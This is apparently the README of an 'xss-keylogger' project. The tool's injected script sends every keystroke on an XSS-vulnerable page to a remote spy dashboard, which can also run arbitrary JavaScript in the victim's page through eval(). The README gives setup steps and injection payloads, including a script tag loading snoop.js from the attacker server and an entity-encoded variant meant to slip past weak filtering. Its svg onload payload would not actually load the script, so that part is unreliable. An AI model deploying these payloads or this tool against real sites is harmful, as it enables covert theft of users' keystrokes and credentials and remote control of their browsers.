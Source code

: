 # xss-keylogger
A simple keystroke logger that listens and sends all keystrokes for a user on a Cross-site scripting (XSS) vulnerable 
page to a remote dashboard page via [websockets][1].

## Demo
![](https://cloud.githubusercontent.com/assets/315585/4782509/1aafaf46-5cf8-11e4-87c6-a698c7c47deb.gif)

## Introduction
The XSS Keylogger project comes with a Node server and a client side script. The client side script is typically
injected in a web page viewed by other users. The client side script connects using a persistent websocket
connection to the Node server that then relays information received from the client to a remote monitoring dashboard.

The remote monitoring dashboard is also able to send a JavaScript snippet that is run remotely on a XSS exploited
web page that is being visited by an unsuspected user by piping it through [`eval()`][2].

## Motivation
This project was created for XSS educational purposes and to raise awareness on how such a vulnerability can be
exploited.

**Important:** This solution should not be used for any malicious or illegal purposes.

## Setup
Install `npm`, the Node package manager, using the [Homebrew][3] package manager (or using any other means of getting
`npm` installed. Once installed, run `npm install` to resolve and install project related dependencies.

```
brew install npm
npm install
```

## Running
1. Run `node index.js` to start up the Node server. The server will run on port `:3000` by default.
2. Visit `http://localhost:3000/monitor.html` to view the spy dashboard that logs all remote keystrokes
3. Visit `http://localhost:3000/innocent.html` to view a sample web page that has been exploited with the XSS
   keystroke logger client script. Any text typed on the input fields of this page will immediately be made
   visible in the remote spy dashboard.
4. Type and send JavaScript snippet to run in the context of the remote client from the spy dashboard. Some tame
   example remote client snippets:

```
// Show a popup remotely
alert("You've been Sn00ped!");

// Change background of client page to pink
document.body.style.background = 'pink';
```

## Embedding Client Side script

```
// Embed and execute client side script by using a script tag if it is allowed in XSS vulnerable web page
<script src="http://localhost:3000/snoop.js"></script>

// Encode special tags to HTML code to bypass sites with simple inadequate encoding of special tags only
&#060;script src="http://localhost:3000/snoop.js"&#062;&#060;/script&#062;
```

Some sites will prevent any `<script>` tags to be embedded or posted in their input fields. In that case, you
could try to embed and run xss-keylogger client side script as part of the `onload` attribute of an `svg` element.
```
<svg onload="http://localhost:3000/snoop.js" />
```

## Features

### Keystroke Logging

### Running Remote JavaScript

[1]: http://dev.w3.org/html5/websockets
[2]: https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/eval
[3]: http://brew.sh